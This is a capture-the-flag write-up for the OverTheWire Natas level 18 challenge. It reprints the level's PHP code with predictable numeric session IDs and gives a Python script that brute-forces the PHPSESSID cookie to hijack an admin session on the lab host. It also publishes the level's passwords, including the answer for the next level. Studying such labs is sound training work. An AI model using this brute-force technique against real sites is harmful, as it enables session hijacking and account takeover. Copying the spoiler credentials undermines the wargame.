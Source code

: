 # Writeup level 18
In this challenge we have to get access as an admin. The problem is that there is no way to authorize as an admin beside having the $_SESSION value of "admin" set to 1 which we can't modify.

**Source Code**

```php
<?

$maxid = 640; // 640 should be enough for everyone

function isValidAdminLogin() { /* {{{ */
    if($_REQUEST["username"] == "admin") {
    /* This method of authentication appears to be unsafe and has been disabled for now. */
        //return 1;
    }

    return 0;
}
/* }}} */
function isValidID($id) { /* {{{ */
    return is_numeric($id);
}
/* }}} */
function createID($user) { /* {{{ */
    global $maxid;
    return rand(1, $maxid);
}
/* }}} */
function debug($msg) { /* {{{ */
    if(array_key_exists("debug", $_GET)) {
        print "DEBUG: $msg<br>";
    }
}
/* }}} */
function my_session_start() { /* {{{ */
    if(array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE["PHPSESSID"])) {
    if(!session_start()) {
        debug("Session start failed");
        return false;
    } else {
        debug("Session start ok");
        if(!array_key_exists("admin", $_SESSION)) {
        debug("Session was old: admin flag set");
        $_SESSION["admin"] = 0; // backwards compatible, secure
        }
        return true;
    }
    }

    return false;
}
/* }}} */
function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas19\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.";
    }
}
/* }}} */

$showform = true;
if(my_session_start()) {
    print_credentials();
    $showform = false;
} else {
    if(array_key_exists("username", $_REQUEST) && array_key_exists("password", $_REQUEST)) {
    session_id(createID($_REQUEST["username"]));
    session_start();
    $_SESSION["admin"] = isValidAdminLogin();
    debug("New session started");
    $showform = false;
    print_credentials();
    }
}
```

We can already spot that there are a maximum of 640 id's which are given to the users. So lets try to bruteforce the session of the admin!

**Exploit**  
```python
import requests

url = "http://natas18.natas.labs.overthewire.org/index.php?debug=true"
data={"username": "admin", "password": "1234"}

for i in range(1,641):
	cookies = {'PHPSESSID': str(i)}
	r = requests.post(url, cookies=cookies,data=data, auth=("natas18", "xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP"))
	if("You are an admin." in r.text):
		print(r.text)
	else:
		print(i)
```
In my case it was session id: 119  
The password is:  
4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs
